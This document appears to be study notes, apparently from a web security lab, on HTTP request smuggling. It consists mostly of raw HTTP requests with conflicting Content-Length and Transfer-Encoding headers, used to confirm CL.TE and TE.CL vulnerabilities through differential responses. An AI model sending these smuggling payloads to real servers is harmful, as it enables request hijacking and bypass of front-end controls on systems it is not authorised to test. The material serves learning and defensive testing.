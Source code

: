 ```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
Last two lines must be treated as belonging to next normal request  
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Foo: x
```
## Confirming TE.CL vulnerabilities using differential responses
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to the next request that is received  
```
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

a7
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0

```
The "attack" request and the "normal" request should be sent to the server using different network connections. Sending both requests through the same connection won't prove that the vulnerability exists.  
